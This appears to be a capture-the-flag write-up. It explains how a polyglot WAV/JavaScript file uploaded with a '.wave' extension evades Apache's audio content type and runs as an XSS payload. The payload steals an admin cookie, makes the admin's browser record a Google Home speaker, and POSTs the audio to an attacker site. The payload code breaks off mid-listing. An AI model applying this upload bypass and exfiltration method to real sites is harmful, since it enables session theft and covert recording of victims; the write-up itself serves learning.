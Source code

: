 After uploading this evil wav, we are trying to XSS with `<script src="uploads/filename.wav"></script>` but it didn't work. The reason is the Apache server will return the content-type `audio/wave`. The browser will check the type. If the type is `audio`, the broser will not include the file for security reason.

That's annoying. After trying all the extension `ogg/wav/wave/webm/mp3`, we found Apache doesn't recognize `*.wave` as a audio file. Therefore, if we upload a file named `filename.wave`, and then include the script through `<script src="filename.wave"></script>`, the javascript can be exeuted!

After XSS, we can steal the admin's cookie and login as admin. There are two clips in the account. The first is intended to give the challenges the correct command to Google Home, "OK Google, what is the flag?" The second clip is telling us that the admin will only stay on the clips interested him. "Has anyone else played "Toaster Wars"? Share me clips with 'spatulate' in the description and I'll give them a listen!". So we just put "spatulate' in the description.

The attack steps are listed below:

1. The admin clicks the clip which we shared.
2. The audio of that clip, "Ok google, what is the flag?", will be played automatically.
3. The description contains a malicious Javascript `<script src="js.wave"></script>`, and the admin will execute it.
4. The js will automatically start recording what the Google home said.
5. After recording for 8 seconds, it will stop recording and POST the audio to our website.

The javascript is here. I use a lot of `setTimeout()` to trace the admin's behavior.

```js
// Fake WAVE header
window.onload = () => {
    let errorElt = document.getElementById("error");
    let recordButton = document.getElementById("audio-record");
    let recordPlayback = document.getElementById("record-playback");
    let uploadForm = document.getElementById("upload-form");
    let mediaRecorder;
    let mediaType =
        !("MediaRecorder" in window) ? undefined
        : MediaRecorder.isTypeSupported("audio/webm") ? "audio/webm"
        : MediaRecorder.isTypeSupported("audio/ogg") ? "audio/ogg"
        : undefined;
    let mediaBlob;

    if (!mediaType) {
        recordButton.disabled = true;
        recordButton.innerText = "Not supported";
    }

    let err = /err=([^&]*)/.exec(window.location.search);
    if (errorElt && err) {
        errorElt.className = "";
        errorElt.innerText = decodeURIComponent(err[1].replace(/\+/g, " "));
    }

    if (recordButton) {
        recordButton.addEventListener("click", (e) => {
            e.preventDefault();
            if (!mediaType) {
                return;
            }
            if (mediaRecorder) {
                mediaRecorder.stop();
                mediaRecorder = undefined;
                recordButton.innerText = "Record";
            } else {
                recordButton.innerText = "Stop";
                navigator.mediaDevices.getUserMedia({ audio: true })
                    .then((stream) => {
```